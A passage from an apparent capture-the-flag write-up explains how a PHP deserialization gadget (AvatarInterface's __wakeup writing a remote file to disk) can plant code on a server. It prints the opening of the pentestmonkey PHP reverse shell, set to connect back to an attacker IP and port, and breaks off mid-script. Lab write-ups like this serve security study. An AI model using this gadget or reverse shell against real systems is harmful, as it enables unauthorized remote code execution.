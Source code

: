 Revisiting the PHP code above, the server has `AvatarInterface` with a magic method we can use -- this passes in an image path to Avatar and calls save, effectively writing the contents of `$this->tmp` to `$this->imgPath`:

```php
class AvatarInterface {
    public $tmp;
    public $imgPath; 

    public function __wakeup() {
        $a = new Avatar($this->imgPath);
        $a->save($this->tmp);
    }
}

class Avatar {
    public $imgPath;

    public function __construct($imgPath) {
        $this->imgPath = $imgPath;
    }

    public function save($tmp) {
        $f = fopen($this->imgPath, "w");
        fwrite($f, file_get_contents($tmp));
        fclose($f);
    }
}
```

Luckily for us, the documentation for [file_get_contents](https://www.php.net/manual/en/function.file-get-contents.php) shows that the file can be local or a URI.  Let's serve up a PHP reverse shell, and see if we can serialize an `AvatarInterface` so the server will download and store the file, allowing us to execute arbitrary php to gain a foothold..

Here's our PHP script to execute arbitrary commands, named `my-cmd.php` (taken from pentest monkey):

```php
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP. Comments stripped to slim it down. RE: https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net

set_time_limit (0);
$VERSION = "1.0";
$ip = '10.10.14.17';
$port = 3322;
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; bash -i';
$daemon = 0;
$debug = 0;

if (function_exists('pcntl_fork')) {
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}
```